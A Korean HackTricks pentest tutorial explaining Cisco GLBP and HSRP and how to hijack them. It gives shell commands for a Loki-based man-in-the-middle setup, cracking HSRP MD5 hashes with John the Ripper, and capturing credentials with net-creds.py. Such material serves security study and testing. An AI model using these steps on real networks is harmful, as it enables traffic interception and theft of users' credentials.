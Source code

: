 # GLBP & HSRP 공격

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP 해킹 개요

### FHRP 통찰
FHRP는 여러 라우터를 하나의 가상 단위로 병합하여 네트워크 견고성을 제공하도록 설계되어 로드 분산 및 장애 허용성을 향상시킵니다. Cisco Systems는 GLBP 및 HSRP와 같은 중요한 프로토콜을 이 스위트에 소개했습니다.

### GLBP 프로토콜 통찰
Cisco의 창작물인 GLBP는 TCP/IP 스택에서 작동하며 통신에 UDP 포트 3222를 사용합니다. GLBP 그룹의 라우터는 3초 간격으로 "hello" 패킷을 교환합니다. 라우터가 이러한 패킷을 10초 동안 보내지 않으면 오프라인으로 간주됩니다. 그러나 이러한 타이머는 고정되어 있지 않고 수정할 수 있습니다.

### GLBP 작동 및 로드 분산
GLBP는 단일 가상 IP와 여러 가상 MAC 주소를 사용하여 라우터 간의 로드 분산을 가능하게 함으로써 라우터 간의 로드 분산을 가능하게 합니다. GLBP 그룹에서 각 라우터는 패킷 전달에 참여합니다. HSRP/VRRP와 달리 GLBP는 다음과 같은 여러 메커니즘을 통해 진정한 로드 밸런싱을 제공합니다:

- **호스트 종속 로드 밸런싱:** 호스트에 일관된 AVF MAC 주소 할당을 유지하여 안정적인 NAT 구성에 필수적입니다.
- **라운드 로빈 로드 밸런싱:** 요청하는 호스트 사이에서 AVF MAC 주소 할당을 번갈아가며 사용하는 기본 접근 방식입니다.
- **가중 라운드 로빈 로드 밸런싱:** 미리 정의된 "가중치" 메트릭에 따라 부하를 분배합니다.

### GLBP의 주요 구성 요소 및 용어
- **AVG (Active Virtual Gateway):** MAC 주소를 동료 라우터에 할당하는 주요 라우터입니다.
- **AVF (Active Virtual Forwarder):** 네트워크 트래픽을 관리하는 라우터입니다.
- **GLBP 우선 순위:** AVG를 결정하는 메트릭으로, 기본값은 100이며 1에서 255 사이의 범위를 가집니다.
- **GLBP 가중치:** 라우터의 현재 부하를 반영하며, 수동으로 조정하거나 Object Tracking을 통해 조정할 수 있습니다.
- **GLBP 가상 IP 주소:** 모든 연결된 장치에 대한 네트워크의 기본 게이트웨이로 작동합니다.

상호 작용을 위해 GLBP는 예약된 멀티캐스트 주소 224.0.0.102와 UDP 포트 3222를 사용합니다. 라우터는 3초 간격으로 "hello" 패킷을 전송하며, 패킷이 10초 동안 누락되면 비운용 상태로 간주됩니다.

### GLBP 공격 메커니즘
공격자는 우선 순위 값이 가장 높은(255) GLBP 패킷을 보내어 주 라우터가 될 수 있습니다. 이로 인해 DoS 또는 MITM 공격이 발생할 수 있으며, 트래픽 가로채기 또는 리디렉션이 가능해집니다.

### Loki를 사용한 GLBP 공격 실행
[Loki](https://github.com/raizo62/loki_on_kali)는 우선 순위와 가중치가 255로 설정된 패킷을 주입하여 GLBP 공격을 수행할 수 있습니다. 공격 전 단계는 Wireshark와 같은 도구를 사용하여 가상 IP 주소, 인증 존재 여부 및 라우터 우선 순위 값을 수집하는 것입니다.

공격 단계:
1. Promiscuous 모드로 전환하고 IP 포워딩을 활성화합니다.
2. 대상 라우터를 식별하고 해당 IP를 검색합니다.
3. Gratuitous ARP를 생성합니다.
4. AVG를 흉내 내는 악의적인 GLBP 패킷을 주입합니다.
5. 공격자의 네트워크 인터페이스에 GLBP 가상 IP를 반영하는 보조 IP 주소를 할당합니다.
6. 완전한 트래픽 가시성을 위해 SNAT를 구현합니다.
7. 원래 AVG 라우터를 통해 계속된 인터넷 액세스를 보장하기 위해 라우팅을 조정합니다.

이러한 단계를 따라가면 공격자는 "중간자"로 위치하여 암호화되지 않거나 민감한 데이터를 포함한 네트워크 트래픽을 가로채고 분석할 수 있습니다.

시연을 위해 필요한 명령어 스니펫은 다음과 같습니다:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP 하이재킹의 수동 설명과 명령어 세부 정보

#### HSRP(Hot Standby Router/Redundancy Protocol) 개요
HSRP는 네트워크 게이트웨이의 여분 시스템을 위한 시스코 독점 프로토콜입니다. 여러 물리적 라우터를 공유 IP 주소를 가진 단일 논리적 단위로 구성할 수 있습니다. 이 논리적 단위는 트래픽을 관리하는 주 라우터에 의해 관리됩니다. GLBP와 달리 HSRP는 우선순위와 가중치와 같은 메트릭을 사용하지 않고 단일 활성 라우터에 의존하여 트래픽을 관리합니다.

#### HSRP의 역할과 용어
- **HSRP 활성 라우터**: 트래픽 흐름을 관리하는 게이트웨이로 작동하는 장치입니다.
- **HSRP 대기 라우터**: 활성 라우터가 실패할 경우 대기하여 대체할 백업 라우터입니다.
- **HSRP 그룹**: 단일 견고한 가상 라우터를 형성하기 위해 협력하는 라우터의 집합입니다.
- **HSRP MAC 주소**: HSRP 설정에서 논리적 라우터에 할당된 가상 MAC 주소입니다.
- **HSRP 가상 IP 주소**: 연결된 장치를 위한 기본 게이트웨이로 작동하는 HSRP 그룹의 가상 IP 주소입니다.

#### HSRP 버전
HSRP에는 HSRPv1과 HSRPv2 두 가지 버전이 있으며 주로 그룹 용량, 멀티캐스트 IP 사용 및 가상 MAC 주소 구조가 다릅니다. 이 프로토콜은 서비스 정보 교환을 위해 특정 멀티캐스트 IP 주소를 활용하며 3초마다 Hello 패킷을 보냅니다. 10초 간격 내에 패킷을 수신하지 않으면 라우터는 비활성으로 간주됩니다.

#### HSRP 공격 메커니즘
HSRP 공격은 최대 우선순위 값을 주입하여 활성 라우터의 역할을 강제로 인수하는 것을 포함합니다. 이는 중간자 공격을 유발할 수 있습니다. 필수적인 사전 공격 단계에는 HSRP 설정에 대한 데이터 수집이 포함되며, 이는 트래픽 분석을 위해 Wireshark를 사용하여 수행할 수 있습니다.

#### HSRP 인증 우회 단계
1. HSRP 데이터를 포함하는 네트워크 트래픽을 .pcap 파일로 저장합니다.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py를 사용하여 .pcap 파일에서 MD5 해시를 추출합니다.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper를 사용하여 MD5 해시를 해독합니다.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki를 사용한 HSRP 인젝션 실행**

1. HSRP 광고를 식별하기 위해 Loki를 실행합니다.
2. 네트워크 인터페이스를 수동 모드로 설정하고 IP 포워딩을 활성화합니다.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki를 사용하여 특정 라우터를 대상으로 하고 해독된 HSRP 암호를 입력하고 활성 라우터를 위장하기 위해 필요한 구성을 수행합니다.
4. 활성 라우터 역할을 얻은 후 네트워크 인터페이스 및 IP 테이블을 구성하여 합법적인 트래픽을 가로챕니다.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 라우팅 테이블을 수정하여 트래픽을 이전 활성 라우터를 통해 라우팅합니다.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 가로챈 트래픽에서 자격 증명을 캡처하기 위해 net-creds.py 또는 유사한 유틸리티를 사용합니다.
```shell
sudo python2 net-creds.py -i eth0
```

이러한 단계를 실행하면 공격자가 GLBP 하이재킹과 유사한 방식으로 트래픽을 가로채고 조작할 수 있는 위치에 있게 됩니다. 이는 HSRP와 같은 여분 프로토콜의 취약성을 강조하며 견고한 보안 조치의 필요성을 강조합니다.
